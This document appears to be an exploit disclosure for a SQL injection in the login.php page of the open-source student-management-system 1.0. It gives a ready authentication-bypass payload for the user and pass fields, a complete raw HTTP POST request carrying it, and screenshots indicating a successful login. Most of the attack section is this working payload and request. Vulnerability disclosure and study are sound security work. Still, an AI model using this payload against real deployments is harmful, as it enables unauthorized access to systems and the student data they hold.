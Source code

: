 # student-management-system login.php user SQL inject

   
#### Exploit Title: student-management-system login.php user SQL inject
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://github.com/ningzichun/student-management-system
#### Software Link: https://github.com/ningzichun/student-management-system
#### Version: student-management-system 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection student-management-system does not filter the content correctly at the "login.php" user module, resulting in the generation of SQL injection.

#### Payload used:
`user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4`

#### Proof of Concept


1. Open login.php source code.

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/b1172a22-8865-4368-b436-9b369edee757)

2. POST SQL injection payload  (`user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4`) 

3. Html Request Code

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/094278d5-3144-4cb2-bb34-dee6f934025e)
```
POST /student/login.php HTTP/1.1
Host: 172.24.6.107:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://172.24.6.107:8081
Connection: close
Referer: http://172.24.6.107:8081/student/?retry=1
Cookie: PHPSESSID=44sif2lb4iq80ieksie1intac7
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4
```

4. user login

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/7b977528-8ee2-492e-850a-3f88b26917cf)
![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/72730c85-66cc-49a3-a963-6669a24eb9c8)

